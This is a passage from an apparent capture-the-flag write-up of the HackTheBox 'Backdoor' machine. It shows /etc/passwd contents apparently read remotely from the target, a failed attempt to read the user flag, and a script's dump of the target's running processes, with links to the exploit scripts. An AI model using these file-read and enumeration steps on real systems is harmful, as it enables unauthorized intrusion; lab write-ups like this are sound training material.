 ```
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

We can see that a user called user is allocated in the system. We can try to grab the flag.
```bash
./dt /home/user/user.txt
```
Output:
```bash
[-] File /home/user/user.txt not found at 10.10.11.125
```
We dont get much...


We are going to create a [script][Bash script list] to list all the process running at the machine using the script we just created.<br>
We run it: <br>
*Note: The dt.sh and the list_process.sh script have to be in the same directory*
```bash
./list_process.sh 2>/dev/null
```
Output:
```
* Process 1:
         CMD: /sbin/initautoautomatic-ubiquitynoprompt
* Process 487:
         CMD: /lib/systemd/systemd-journald
* Process 515:
         CMD: /lib/systemd/systemd-udevd
* Process 538:
         CMD: /lib/systemd/systemd-networkd
* Process 658:
         CMD: /sbin/multipathd-d-s
* Process 659:
         CMD: /sbin/multipathd-d-s
* Process 660:
         CMD: /sbin/multipathd-d-s
* Process 661:
         CMD: /sbin/multipathd-d-s
* Process 662:
         CMD: /sbin/multipathd-d-s
* Process 663:
         CMD: /sbin/multipathd-d-s
* Process 664:
         CMD: /sbin/multipathd-d-s
* Process 684:
         CMD: /lib/systemd/systemd-resolved
* Process 686:
         CMD: /lib/systemd/systemd-timesyncd
* Process 709:
         CMD: /usr/bin/VGAuthService
* Process 711:
         CMD: /usr/bin/vmtoolsd
* Process 753:
```

[screen man]: https://linux.die.net/man/1/screen
[Bash script dt]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/dt.sh
[Bash script list]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/list_process.sh
[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581
[port1337]: https://www.speedguide.net/port.php?port=1337